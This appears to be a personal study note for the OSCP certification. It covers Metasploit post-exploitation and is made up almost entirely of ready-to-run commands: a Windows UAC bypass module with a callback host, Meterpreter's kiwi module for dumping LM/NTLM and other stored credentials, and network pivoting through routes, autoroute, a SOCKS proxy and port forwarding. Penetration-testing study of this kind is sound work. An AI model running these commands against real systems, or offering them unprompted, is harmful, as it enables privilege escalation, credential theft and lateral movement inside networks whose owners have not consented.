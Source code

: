 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/11. Metasploit Framework/6. Post-Exploitation Modules/"}
---
```


--------------
### UAC bypass:
- Review the integrity level of current process:
```
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- Effective UAC bypass for modern Windows systems:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

---------------
### Kiwi Credential Stealer:
- Requires privileges like Mimikatz
- In Meterpreter:
```
#Load module:
load kiwi

#Dump LM/NTLM creds:
creds_msv

#Dump all creds:
creds_all
```

-----------
### Meterpreter Port Forwarding:
```
route add <ip-or-range> <msfsessionid>
```
- Note: new shells on remote target through tunnel will only work if bind shells
- Example:
	route add 172.16.5.0/24 2

- Flush all routes:
```
route flush
```

- Auto-route module (recommended):
```
use multi/manage/autoroute
set session <id>
run
```

- SOCKS proxy module for tunnel outside of MSF:
	- Edit proxychains conf to port 1080 and win!
```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

 - Meterpreter built-in port forward:
```
portfwd add -l <localport> -p <remoteport> -r <remoteip>
```
